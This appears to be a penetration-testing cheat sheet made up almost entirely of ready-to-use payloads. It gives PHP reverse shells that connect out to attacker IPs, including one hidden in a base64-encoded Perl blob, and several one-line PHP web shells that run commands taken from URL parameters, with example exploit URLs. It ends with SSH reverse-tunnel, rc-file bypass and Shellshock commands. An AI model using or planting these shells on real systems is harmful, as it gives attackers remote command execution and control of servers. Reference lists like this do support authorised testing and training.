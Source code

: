 	# Simple PHP shell.php
	<?php echo shell_exec("bash -i >& /dev/tcp/192.168.226.128/443 0>&1");?>
	
	#PHP popen
	<?php popen("(nc -nv $_GET[0] 443 -e /bin/bash)2>&1","r"); ?>
	URL:http://example.com/malicious-shell.php?0=10.0.0.10	
	
	#PHP fsockopen
	<?php fsockopen("10.11.0.10", 443);`/bin/sh -i <&3 >&3 2>&3`; ?>

	#PHP Reverse Shell with Base64
	<?php shell_exec(base64_decode("cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTAuMTEuMC41MyI7JHA9MTIzNDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn"))?>

	PAYLOAD: <?=`$_GET[0]`?>
	URL: http://website.com/cmd.php?0=

	PAYLOAD: <?=$_GET[0]($_POST[1]);?>
	URL: http://website.com/cmd.php?0=shell_exec -d 1=id
	
	PAYLOAD: <?php export($_GET); $a($b)?>
	URL: http://example.com/shell.php?a=system&b=id

	PAYLOAD: <?php system($_GET["cmd"]); ?>
	URL: http://example.com/shell.php?cmd=id
	
	PAYLOAD: <?php shell_exec(base64_decode($_GET["cmd"])) ?>

## SSH

Reverse Shell

	This attack requires having credentials on both machines, and can be used for NAT-ed environments.
		
	#Executed on remote host.
	ssh -NR 60000:localhost:22 user@10.11.0.55
		
	#Executed on attacking machine.
	ssh user@localhost -p 60000

Have SSH execute a command before the remote shell is loaded

	ssh user@10.11.0.100 -t "/bin/sh"

Try to get SSH to not load the shell's rc file

	ssh user@10.11.0.100 -t "bash --noprofile"

Shellshock	

	ssh user@10.11.0.100 -t "() { :; }; /bin/bash"


## File Transfers
